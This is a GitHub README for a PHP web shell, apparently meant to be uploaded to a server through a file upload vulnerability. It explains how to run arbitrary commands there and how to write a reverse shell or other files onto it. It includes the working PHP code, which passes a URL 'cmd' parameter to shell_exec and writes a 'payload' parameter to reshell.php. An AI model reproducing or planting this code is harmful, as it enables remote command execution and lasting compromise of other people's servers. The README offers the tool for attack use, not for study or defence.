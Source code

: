 # extra-web-shell

## what is this?
#### this is a simple web shell, contains both, bind and option of upload a reverse shell

## how can this help me?
#### well, sometimes when you find a file upload vulnerability, you will find that you can't bypass the extension eaisy, for example you have to try many extesions methods such as, php, php5, jpg.php ... this extra web shell, will help you to upload any kind of files start from php, txt ...etc

## bind shell section
#### this part of the tool, you can execute any command on the server without any problem, and the output will be visible in the output border

## creat file or reverse shell section
#### here you can upload any file just copy the content of this file and the output will gives you the link of it to acssess
#### you can edit the name and the extension in the source code from "reshell.php" to what you like
```php
<?php
	if(isset($_GET['cmd']))
	{
	    $output = shell_exec($_GET['cmd']);
	}
	elseif (isset($_GET['payload'])) {
		file_put_contents("reshell.php", $_GET['payload']);
		$path = "reshell.php";
	}	
?>

```

## LICENCE
[MIT](https://github.com/hamza07-w/extra-web-shell/blob/main/LICENSE)
